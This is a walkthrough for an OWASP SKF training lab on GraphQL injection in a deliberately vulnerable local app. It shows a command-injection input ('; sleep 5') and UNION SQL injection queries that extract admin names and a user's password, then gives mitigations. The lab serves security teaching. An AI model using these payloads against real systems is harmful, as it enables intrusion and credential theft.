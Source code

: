 # GraphQL injection

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-graphql-injection
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-graphql-injection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

This lab shows that GraphQL is not a silver bullet to any of the injection vulnerabilities.

We will look at two of the most common ones:

- OS Command Injection
- Sql Injection

We still see the blog that we should be familiar by now.

Let's login with: admin/admin

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/1.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/2.png)

If you run your DirBuster against it or just manually try to guess few of the rountes you will notice the new `/admin` section of the web app.

```
http://0.0.0.0:5000/admin
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/3.png)

There we have two functionalities:

- Check SQL Server Status
- Query User detiails

Both of them look suspicious, so play around and understand what they actually do.

Hint: you can also use what you have learned from the Introspection lab to understand the queries and mutations in the admin part ;)

## Exploitation

Your gut feeling is right and the _Check SQL Server Status_ should be vulnerable to _OS Command Injection_ and _Query User detiails_ should be vulnerable to _SQL injection_ attacks.

Let's get it on!

### OS Command Injection

The _Check SQL Server Status_ form has one input field where a server and a port are expected.

Go about and try check if some of the well known SQL Server ports are open on the server.

Probablly your first try was MySQL 3306 - 127.0.0.1:3306. Play around with few other ports and IPs and observe the results we receive.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/4.png)

Now go ahead and try to execute some other system commands, append, pipe, ...

It looks like out input is being passed to a system command which gets executed and we get response code of it. By looking in the code we can see it is passed to a `exec()` call.

This makes it a bit harder as we don't see the actual output of the command but we don't need that... enter **_Blind OS Command Injection_**

How about we try to a valid command that time effective and we can observe that... kind of an oracle, a Time Oracle.

Let's try: `127.0.0.1:3306; sleep 5`

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/5.png)

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/6.png)

As you have observed, the applciation took additional extra 5 seconds to respond, meaning our `sleep` command got executed. w00t, w00t!

Now, it' up to you to come up with scenario how to further abuse this.

### SQL Injection

Staying on the same `/admin` we also see _Query User detiails_ functionality which allowes an Administrator to get information about users by providing `username` values.

Go aronud find locate the GraphQL query that executes this transaction.

Now try to fetch some information for valid or invalid users. How about trying some SQL Injection payloads? :)

```
Example:
' UNION SELECT id, username FROM users --")
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/7.png)

By now we are aboslutly sure that this is an SQL Injection point and it is pretty that we are dealing with UNION style SQL Injection.
Next up, let's try to find the other blog admins:

```
{
  User(username: "' UNION SELECT id, username, null, null FROM users WHERE isAdmin = true --"){
    id
    username
  }
}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/8.png)

Lets try to get the password of some user:

```
{
  User(username:"' UNION SELECT id, username, password, null FROM users WHERE username = 'johndoe'  --") {
    id
    username
}}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/9.png)

We face few hurdles here:

- The query only returns one row (the first row)
- We cannot see the `password` value as our GraphQL `User` model excludes the `password` column/field

```javascript
const UserType = new graphql.GraphQLObjectType({
  name: "User",
  fields: {
    id: { type: graphql.GraphQLID },
    username: { type: graphql.GraphQLString },
    isAdmin: { type: graphql.GraphQLBoolean },
  },
});
```

This means we need to get the password out from the UNION SELECT in another variable that is passed back.

The laziest approach, if our target is to get the password, is to return in all fields:

```
{
  User(username:"' UNION SELECT password, password, password, password FROM users WHERE username = 'johndoe'  --") {
    id
    username
}}
```

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Graphql-Injections/10.png)

w00t w00t!

What else can you!?

## Solution

### OS Command Injection

By know you fully understand that GraphQL does not handle input validation or santization for you. It actually has nothing to do with it. So, fixing the code in this lab does not differ to any of your previous practices on fixing code for OS Command Line injection.

### SQL Injection

SQL Injections have been present and known as vulnerability for such a long time which means that the mitigations are known, documented and well explained. Mitigating against SQL Injections when it comes to GraphQL powered applications are the same as for any other technology.
In this particular project we use SQLAlchemy as ORM and graphane_sqlalchemy implemetation which is one common use case. However, as can be seen in our example mistakes can be made if we concatinate unsanitized, user provided string input to our SQLAlchemy queries.

The solution?

- Sanitize the input
- Use parameterized queries
- Use SQLAlchemy as described in documentation

## Additional resources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html" %}
